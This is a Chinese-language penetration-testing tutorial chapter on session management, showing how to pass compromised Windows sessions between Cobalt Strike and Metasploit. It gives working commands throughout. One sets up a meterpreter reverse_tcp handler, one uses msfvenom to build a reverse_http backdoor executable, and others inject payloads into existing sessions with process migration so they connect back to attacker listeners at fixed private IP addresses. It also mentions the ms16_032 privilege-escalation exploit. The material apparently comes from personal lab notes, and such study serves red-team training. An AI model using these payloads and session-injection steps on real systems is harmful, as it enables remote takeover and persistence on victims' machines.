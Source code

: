 # 第五章 会话管理

## 1. 不同 listener 之间的会话转移

1. 右键会话(spawn) --> 选择其他的 listener



## 2. 不同的 teamserver 之间的会话转移

1. 在新的 teamserver 中创建监听器 --> 右键会话转移(spawn) --> 选择刚刚新建的监听器



## 3. cobalt strike 派生 metasploit 会话

1. 首先在 metasploit 中创建监听（这里使用 reverse_tcp ）：

    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.43.106
    set lport 4444
    exploit -j
    ```

    结果：

    ![image-20220124112805508](会话管理/image-20220124112805508.png)

     补充：

    jobs 命令可以查看后台的任务项。例如：

    ![image-20220124112902547](会话管理/image-20220124112902547.png)

    使用 `kill <id>` 可以关闭某个任务

2. 在 cobalt strike 中新建监听器，这里根据上文的监听类型，选择对应的监听器种类：

    ![image-20220124113114337](会话管理/image-20220124113114337.png)

    这里要注意的是：

    1. Payload 要选择之间 msf 中设置的，要选 foreign
    2. 主机和端口要和刚刚在 msf 中设置的一致。

3. 在 cobalt strike 中选择要转移的会话，选择刚刚建立的监听器即可。

    <img src="会话管理.assets/image-20220124113505915.png" alt="image-20220124113505915" style="zoom:80%;" />

    

## 4. metasploit 生成木马和 cobalt strike 会话

1. 首先利用 metasploit 生成一个反弹 http shell：

    `msfvenom -p windows/meterpreter/reverse_http lhost=192.168.43.106 lport=55555 -f exe > shell_tcp_43.106_55555.exe`

2. 在 cobalt strike 中设置监听器。这里的监听器为 windows/beacon_http/reverse_http

    ![image-20220124153005256](会话管理/image-20220124153005256.png)

3. 靶机执行 shell，获得会话。

    其实这里的 cobalt strike 相当于 msf 的 handler。



## 5. metasploit 利用 exp 将会话转给 cobalt strike

1. 正常使用攻击 exp。
2. 设置 payload 的时候选择与 cobal strike 中设置的监听器相同类型的 payload。例如都是 reverse_http
3. 设置 Lhost 和 Lport 都是 cobalt strike 监听器的主机地址和端口。
4. `set disablepayloadhandler True` 。将 DisablePayLoadHandler 设置为 true。这告诉 metasploit 框架，它不需要在metasploit 框架内创建处理程序来服务有效负载连接。
5. `set PrependMigrate true`。这个选项告诉 metasploit 框架修改其 stager，以便在利用之后立即迁移到另一个进程。此选项对于客户端攻击非常重要。它允许您的会话在被利用的应用程序崩溃或关闭时存活。
6. 个人实验时利用的是 ms16\_032 exp。在 msf 设置 payload 的时候，虽然设置其为 reverse_http，但最终 show options 的时候还是 reverse_tcp。最终在 cobalt strike 中依旧无法获得会话。



## 6. metasploit session 派生 cobalt strike 会话

1. 首先利用 exp 产生 session。

2. 将获得的 session 通过 `background` 置于后台。

3. 利用以下模块：

    ```bash
    use exploit/windows/local/payload_inject
    # 这里设置具体的 session
    set session x
    # 这里设置的 payload 要和 cobalt strike 中设置的监听器的配置一致
    set payload windows/meterpreter/reverse_http
    # cobalt strike 监听器的主机地址
    set lhost 192.168.0.106
    # cobalt strike 监听器的端口地址
    set lport 1234
    set DisablePayloadHandler true
    exploit -j
    ```

4. 结果如下：

    ![image-20220125205227167](会话管理/image-20220125205227167.png)

    

